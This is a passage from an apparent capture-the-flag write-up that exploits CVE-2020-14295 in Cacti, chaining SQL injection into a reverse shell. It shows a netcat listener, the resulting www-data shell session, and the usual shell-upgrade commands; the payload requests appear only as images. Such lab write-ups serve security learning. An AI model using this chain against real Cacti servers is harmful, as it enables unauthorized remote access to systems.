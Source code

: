 This version is vulneraby to CVE-2020-14295 and following the [PoC](https://github.com/Cacti/cacti/issues/3622) we can leverage the SQLI to RCE in multiple steps. First we write the payload in the settings table with a first request.

[![cacti_store_payload](/img/monitors/cacti_store_payload.png)](/img/monitors/cacti_store_payload.png)

Then we set up our ncat listener.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Finally we reindex the database with another http request and trigger our payload.

[![cacti_payload_trigger](/img/monitors/cacti_payload_trigger.png)](/img/monitors/cacti_payload_trigger.png)

This results in a reverse shell as www-data, which we upgrade with python and fix the terminal size.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.136.121.
Ncat: Connection from 10.129.136.121:59222.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@monitors:/usr/share/cacti/cacti$ export TERM=xterm
export TERM=xterm
www-data@monitors:/usr/share/cacti/cacti$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@monitors:/usr/share/cacti/cacti$ stty rows 55 cols 236
```
